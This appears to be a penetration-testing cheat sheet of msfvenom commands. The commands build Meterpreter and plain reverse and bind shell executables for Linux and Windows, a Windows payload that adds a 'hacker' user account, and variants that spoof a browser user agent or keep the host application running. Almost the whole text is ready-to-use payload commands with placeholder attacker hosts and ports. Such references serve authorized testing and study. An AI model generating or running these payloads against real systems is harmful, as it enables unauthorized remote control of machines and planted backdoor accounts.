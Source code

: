 ### Linux

Linux Meterpreter reverse shell x86 multi stage:

```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

Linux Meterpreter bind shell x86 multi stage:

```sh
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

Linux bind shell x64 single stage:

```sh
msfvenom -p linux/x64/shell_bind_tcp RHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

Linux reverse shell x64 single stage:

```sh
msfvenom -p linux/x64/shell_reverse_tcp RHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

### Windows

Windows Meterpreter http reverse shell:

```sh
msfvenom -p windows/meterpreter_reverse_http LHOST=<IP> LPORT=<PORT> HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
```

Windows Meterpreter bind shell:

```sh
msfvenom -p windows/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Windows CMD Multi Stage:

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Windows CMD Single Stage:

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

Windows add user:

```sh
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

Windows shell which doesn't break the application for a x86 architecture:

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f exe -a x86 --platform windows -o sploit.exe
```
